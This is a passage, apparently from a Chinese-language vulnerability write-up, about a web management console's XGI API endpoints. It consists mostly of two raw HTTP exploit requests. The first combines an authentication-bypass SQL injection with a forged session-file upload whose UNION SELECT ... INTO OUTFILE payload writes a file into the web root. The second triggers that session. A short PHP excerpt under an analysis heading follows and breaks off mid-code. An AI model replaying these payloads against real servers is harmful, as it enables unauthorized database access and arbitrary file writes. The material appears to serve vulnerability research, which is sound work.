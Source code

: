 ```http
POST /ConsoleExternalUploadApi.XGI?key=ServerIPType&initParams=command_uploadAuthorizeKeyFile__user_admin%27+or+%271%27=%271__pwd_2__serverIdStr_1&sign=8091edfafcf0936b64c7d7f2d7bb071f HTTP/1.1
Host: 192.168.21.89:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=3vtpsg3sk18cr6rgp1nvdmlbm7; CookieLanguageName=ZH-CN
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundctaXAswKKlA
Content-Length: 390

------WebKitFormBoundctaXAswKKlA
Content-Disposition: form-data; name="keyFile"; filename="sess_cf1.key"
Content-Type: image/png

0|1|2|a:1:{s:7:"user_id";s:169:"1') Union Select 'asdasd',NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL into outfile '..\\..\\WebRoot\\agasd.txt' -- ";}
------WebKitFormBoundctaXAswKKlA--
```

```http
POST /index.php HTTP/1.1
Host: 192.168.21.89:8081
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://192.168.21.89:8081/index.php?s=/Admin/userlist
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: think_language=en; PHPSESSID=3vtpsg3sk18cr6rgp1nvdmlbm7; UserAuthtype=0; CookieLanguageName=ZH-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 29

s=/Index/index&sessId=cf1.key
```

### ConsoleExternalApi.XGI

### 漏洞分析

关键代码如下，已省略部分无关代码。

```php
$initparams = $_REQUEST['initParams'];
$key = $_REQUEST['key'];
$sign = $_REQUEST['sign'];
//testLog('kaitou1=' . $initparams);
if (stripos($initparams, "exePath_") > 1) {
    $paramArr = explode("__", $initparams);
//    testLog($paramArr);
    if ($paramArr) {
        $i = 0;
        for (; $i < sizeof($paramArr); $i++) {
//            testLog(stripos($paramArr[$i],"exePath_"));
            if (stripos($paramArr[$i], "_") > 1) {
                $paramArrTmp = explode("_", $paramArr[$i]);
//                testLog($paramArrTmp);
```